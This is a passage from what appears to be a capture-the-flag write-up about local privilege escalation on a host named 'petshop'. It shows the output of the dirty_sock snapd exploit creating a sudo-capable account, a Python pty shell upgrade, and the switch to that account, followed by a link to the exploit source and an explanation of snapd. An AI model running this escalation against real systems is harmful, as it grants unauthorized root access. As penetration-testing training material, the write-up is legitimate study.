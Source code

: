 ```bash

[+] Slipped dirty sock on random socket file: /tmp/oqkoowfewq;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...

********************
Success! You can now `su` to the following account and use sudo:
   username: dirty_sock
   password: dirty_sock
********************

www-data@petshop:/tmp/dirty_sock-master$ export TERM=xterm
www-data@petshop:/tmp/dirty_sock-master$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@petshop:/tmp/dirty_sock-master$ su dirty_sock
su dirty_sock
Password: dirty_sock

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

dirty_sock@petshop:/tmp/dirty_sock-master$ whoami
whoami
dirty_sock
dirty_sock@petshop:/tmp/dirty_sock-master$ id
id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock),27(sudo)

```

**For the script source:**

[github.com](https://github.com/initstring/dirty_sock/archive/master.zip)

# Appendix

## Snapd Service

<aside>
💡

The Snapd service is a background service responsible for managing Snap packages on Linux systems. Snap packages, or Snaps, are a form of software deployment that allows developers to bundle their applications with all necessary dependencies, making it easier to distribute and run software on a wide variety of Linux distributions without worrying about package compatibility issues. Snapd installs, updates, and removes Snap packages. It automatically ensures that Snap packages are kept up-to-date by checking for updates regularly and applying them without requiring user intervention. Snaps run in a confined environment (sandbox), isolated from the system's core components. This reduces the risk of a malicious or broken application affecting the overall system.
